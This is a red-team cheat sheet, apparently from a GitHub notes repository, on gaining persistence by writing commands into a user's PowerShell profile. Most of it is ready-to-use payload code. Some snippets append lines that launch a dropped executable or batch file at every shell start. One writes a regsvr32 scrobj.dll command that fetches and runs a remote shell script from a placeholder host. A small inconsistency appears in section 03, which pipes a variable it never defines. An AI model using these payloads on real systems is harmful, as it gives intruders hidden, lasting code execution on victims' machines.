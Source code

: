 # PowerShell Profile

## 01 - Common Files Location

### 1.1 - Unix

```
$PSHOME\Profile.ps1
$PSHOME\Microsoft.PowerShell_profile.ps1
```

### 1.2 - Windows

```
C:\Users\$Env:USERNAME\Documents\PowerShell\Profile.ps1
C:\Users\$Env:USERNAME\Documents\PowerShell\Microsoft.PowerShell_profile.ps1
```

## 02 - Dropper Payload

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Start-Process "C:\tmp\pentestlab.exe"'
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 03 - Batch Script Dropper Payload

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 04 - Web Delivery

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Invoke-Command -ScriptBlock { regsvr32.exe /s /n /u /i:http://<IP>/shell.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

---
## References

### Source Repositories

- [enigma0x3: PowershellProfile Macro](https://github.com/enigma0x3/PowershellProfile/blob/master/Macro)

### Persistence Info

- [Persistence Info: PowerShell Profile](https://persistence-info.github.io/Data/powershellprofile.html)

### Red Team Notes

- [Red Team Notes: Powershell Profile Persistence](https://www.ired.team/offensive-security/persistence/powershell-profile-persistence)

### Pentestlab

- [Pentestlab Blog: Persistence Powershell Profile](https://pentestlab.blog/2019/11/05/persistence-powershell-profile/)

### enigma0x3

- [enigma0x3: Abusing Powershell Profiles](https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/)

### DMCXBlue

- [DMCXBlue: PowerShell Profile](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1546-event-triggered-execution/powershell-profile)